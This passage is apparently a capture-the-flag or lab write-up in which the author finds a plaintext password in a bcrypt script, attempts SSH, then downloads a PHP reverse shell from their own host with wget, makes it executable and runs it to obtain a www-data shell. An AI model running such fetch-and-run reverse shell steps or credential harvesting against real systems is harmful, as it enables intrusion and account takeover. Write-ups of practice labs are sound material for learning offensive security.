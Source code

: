
```
wget http://10.17.24.189:8000/php-reverse-shell.php
```

- Found an unusual file at `/proct/pass/bcrypt_encryption.py`

contents are
```
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()
```

`wewillROCKYOU` is the pass for `adam` because these are owned by him
`drwxr-xr-x   3 adam adam       4096 Feb 28  2021 proct`


- trying to ssh into the server was giving an error
```
┌─[✗]─[glack@parrot]─[~/Desktop/pentestmoneky_php_reverse_shell]
└──╼ $ssh -p 5000 adam@10.10.61.254
kex_exchange_identification: read: Connection reset by peer
Connection reset by 10.10.61.254 port 5000
```

- mysql asl o does not take this password for `adam` or `mason` 

- Now to get a shell from RCE what i did was

since other files were not writable, i downloaded the  php reverse shell in /tmp
```
cd /tmp && wget http://10.17.24.189:8000/php-reverse-shell.php
```

gave executable permissions

```
chmod +x /tmp/php-reverse-shell.php
```

and triggered the php

```
php /tmp/php-reverse-shell.php
```

and got a shell
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

